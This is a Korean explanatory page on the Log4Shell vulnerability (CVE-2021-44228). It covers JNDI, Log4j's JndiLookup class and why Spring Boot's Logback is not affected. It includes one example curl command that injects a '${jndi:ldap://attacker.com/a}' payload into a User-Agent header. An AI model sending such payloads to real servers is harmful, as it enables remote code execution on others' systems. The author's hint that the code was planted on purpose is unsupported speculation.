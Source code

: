 ```yaml
---
layout: default
title: Log4j 보안 취약점 사태
parent: Log4j
nav_order: 100
---
```


# Log4j 보안 취약점 사태

[CVE-2021-44228](https://ko.wikipedia.org/wiki/Log4Shell)

Java 언어 기반의 프로그램중 가장 많이 사용하는 로그 라이브러리로써, 2.14.1 이하 버전의 log4j2 를 사용할 경우 이 취약점에 노출된다.

최초의 발단은 알리바바 클라우드 보안팀으로 부터 알려지게 되었으며, 2021년 12월 9일 트위터의 [게시글](https://twitter.com/P0rZ9/status/1468949890571337731) 로 부터 본격적으로 대중들에게 알려지게 되었다. 

## 취약점 원리

취약점 원리를 먼저 파악하기 전 JNDI(Java Naming and Directory Interface)에 대해 먼저 이해하여야 한다. JNDI는 디렉터리 서비스에서 제공하는 데이터 및 객체를 발견(discover)하고 참고(lookup)하기 위한 자바 API다.

많이 쓰이는 API는 아니지만 그나마 일반적으로 쓰였던 것은 원격에서 Java 애플리케이션 DB 설정을 변경하고자 할 때 사용하기도 한다. JDNI의 경우 LDAP, DNS, NIS, RMI 같은 프로토콜을 이용해서 JNDI를 호출할 수 있도록 지원한다.

JNDI 자체가 문제가 되는건 아니다. 근데 log4j 에서 무슨 이유인지는 모르겠지만 log 를 찍을때, JNDI 를 lookup 할 수 있는 코드가 포함되어 있었다. Log4j 라이브러리  패키지 경로 <code> package org.apache.logging.log4j.core.lookup </code> 에서 <code> JndiLookup </code> 이라는 클래스 가 있는데, 이 녀석은 logger 인터페이스로 전달받은 내용중 특정 네이밍 규칙으로 입력된 내용을 JDNI 으로 핸들링 해주는 클래스이다.  자세한 코드는 우측 링크를 선택해서 보면 된다. [JndiLookup.java](https://github.com/apache/logging-log4j2/blob/rel/2.14.1/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java)

여기에 LDAP 이라는 프로토콜과 결합되어 심각한 문제가 발생됬다. User-Agent 나 X-Api-Version 같은 header 값을 로그로 출력하는 코드가 포함되어 있을 경우 해커의 LDAP 주소를 입력하여 악성 코드를 서버에서 손쉽게 실행할 수 있게 된 것이다.

```
curl 127.0.0.1:8080 -H 'User-Agent: ${jndi:ldap://attacker.com/a}'
```

즉 이번 사태의 **근본적인 문제**는 log4j 에서 log 를 출력할 때, JNDI 를 lookup 하고 있었다는것이 문제다. 왜냐하면 log 를 출력할때 JNDI 를 lookup 하는 기능은 아무도 쓰지도 않는 기능이다. 스프링 부트 기본 내장 logger 인 logback 에서는 jndi lookup 자체를 하고 있지 않다. 굳이 고급 개발자가 아니더라도 해당 코드는 취약점이 발생하기 매우 높은 코드라는것은 예측이 가능한데 왜 이런 코드가 오픈 소스에 포함이 되어 있었을까 의문이다. (혹시?)

## Spring boot Logback은 안전하다.

위 취약점은 log4j에서 발생했다. 스프링 부트는 기본적으로 logback 을 사용한다. logback 은 jndi 자체를 lookup 하지 않기 때문에 ${jndi:~~} 와 같은 코드를 보내더라도 단순 문자열으로 출력할 뿐이다. 물론 스프링 부트 기본 logger를 사용하지 않고 직접 log4j 의존성을 주입하여 사용했다면 문제가 될 수 있다.